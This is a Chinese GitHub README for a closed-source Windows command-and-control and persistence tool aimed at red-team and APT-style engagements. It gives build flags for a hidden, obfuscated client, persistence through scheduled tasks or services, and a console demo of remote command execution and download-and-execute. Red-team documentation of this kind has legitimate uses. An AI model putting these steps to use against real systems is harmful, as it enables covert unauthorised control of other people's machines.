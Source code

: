 - 本人github的项目可能目前主要分为两大类，🐸Frog系列为自动化扫描方向，🐶Doge系列为免杀及内网渗透方向

# 🐶Doge-Persistence-Platform

本项目短期内不开源

## Intro

Doge-Persistence-Platform

DPP windows控制持久化辅助平台

在红蓝对抗/APT/高级渗透测试中，持久化控制已成为一个不可或缺的能力，

虽然，Cobalt Strike与MSF已经在一定程度上满足需求，

由于其具有较强特征，功能过剩，二开麻烦等原因，

从零开始完成了本项目

```
注: 本项目在完成过程中未参考任何项目源码

注: 本项目总用时为一周左右，仅为项目demo
```
## Arch
本项目采用

client----server----console的架构

client与console为golang编译的二进制程序，在windows下运行

server为python flask框架下的web api，在linux vps运行

## Build
server:
```
python3 -m pip install flask

export FLASK_APP=server.py

flask run --host=0.0.0.0 --port=9000

port可自定义
server.py内的key可自定义
heartbeat_raw为初始心跳时间可自定义

```

client:
```
将connUrl替换为server端的url，不带最后一个/
例如：http://100.100.100.100:9000

将var init_key替换为你server中自定义的key

go build -gcflags=-trimpath=$GOPATH -asmflags=-trimpath=$GOPATH -ldflags "-w -s -H windowsgui" main.go

or

garble.exe build -trimpath -ldflags "-w -s -H windowsgui" main.go
```

console:
```
替换sKey为server中的自定义key
替换connUrl为server的url

go build console.go
```

## Use

### client
客户端支持两种上线方式：

#### 单次上线

单次上线为本项目的最初计划的方式，目的是配合系统持久化手段进行控制持久化，

例如：

	采用计划任务的方式，把客户端以单次运行方式执行，设定每1小时执行一次即可。

	采用服务自启动的方式，把客户端以单次运行方式执行，设定每次开机执行一次即可。

单次上线不常驻后台，每次执行即可与api对接一次，接收相关信息。

运行方式(以下三选一即可):
```
client.exe -o
client.exe --once
client.exe once
```
#### beacon上线
beacon上线为在开发过程中加入的上线方式，可以代替简单功能的C2。

常驻后台，心跳包定时请求api

运行方式:
```
client.exe -b
client.exe --beacon
client.exe beacon
```

### console
控制台采用命令行交互

运行方式：
```
在powershell中:
./console.exe
```
## 运行截图
![1](https://raw.githubusercontent.com/timwhitez/Doge-Persistence-Platform/main/pic/1.png)
![2](https://raw.githubusercontent.com/timwhitez/Doge-Persistence-Platform/main/pic/2.png)
![3](https://raw.githubusercontent.com/timwhitez/Doge-Persistence-Platform/main/pic/3.png)
## Features
```
PS D:\> .\console.exe
       _            _            _              _
      /\ \         /\ \         /\ \           /\ \
     /  \ \____   /  \ \       /  \ \         /  \ \
    / /\ \_____\ / /\ \ \     / /\ \_\       / /\ \ \
   / / /\/___  // / /\ \ \   / / /\/_/      / / /\ \_\
  / / /   / / // / /  \ \_\ / / / ______   / /_/_ \/_/
 / / /   / / // / /   / / // / / /\_____\ / /____/\
/ / /   / / // / /   / / // / /  \/____ // /\____\/
\ \ \__/ / // / /___/ / // / /_____/ / // / /______
 \ \___\/ // / /____\/ // / /______\/ // / /_______\
  \/_____/ \/_________/ \/___________/ \/__________/


--------Welcome to Doge-Persistence-Platform--------

Input The Secret-Key:DogeTest


1.列出所有主机           | List all hosts                      | all

2.列出所有n天内上线主机  | List all hosts connected in n days  | days

3.列出所有心跳上线主机   | List all heartbeats hosts           | beacon

4.列出所有单次上线主机   | List all online once hosts          | once

Input(num or word): 1

1 | DESKTOP-DogeTest;8.8.8.8:192.168.1.1; heartbeat: 60 min ; 2021/02/08,17:01:29
2 | DESKTOP-DogeTest1;8.8.8.8:192.168.1.2; once ; 2021/02/07,11:05:41

选择目标主机(输入0回退)  | Target Num(input 0 back)

Input:1


1. 查看主机info          | Show Target Info                    | info

2. 命令执行              | Set CMD                             | cmd

3. 待执行命令或url       | List CMD or url                     | list

4. 下载url               | Set Download & exec Url             | download

5. 命令执行结果          | Show All CMD Results                | results

6. 删除历史数据          | Delete                              | del

7. 修改心跳时间(退出)    | Set Sleep (shutdown)                | sleep

Exploit(type 0 back): 2

HostName: DESKTOP-DogeTest
IP: 8.8.8.8:192.168.1.1


输入需要下发的命令 | Input the command

Input(input 0 back): whoami

命令下发成功! | Success!
Press any key to continue...


1. 查看主机info          | Show Target Info                    | info

2. 命令执行              | Set CMD                             | cmd

3. 待执行命令或url       | List CMD or url                     | list

4. 下载url               | Set Download & exec Url             | download

5. 命令执行结果          | Show All CMD Results                | results

6. 删除历史数据          | Delete                              | del

7. 修改心跳时间(退出)    | Set Sleep (shutdown)                | sleep

Exploit(type 0 back): 1

HostName: DESKTOP-DogeTest
IP: 8.8.8.8:192.168.1.1
OnlineType: heartbeat
Last connection: 2021/02/08,17:01:29

Press any key to continue...
Username: DESKTOP-DogeTest\sandbox
Hostname: DESKTOP-DogeTest
InternalIP: 192.168.1.1

ProcessList:
xxx.exe, yyy.exe, qqq.exe

systeminfo:
xxxxxxx

Press any key to continue...
```
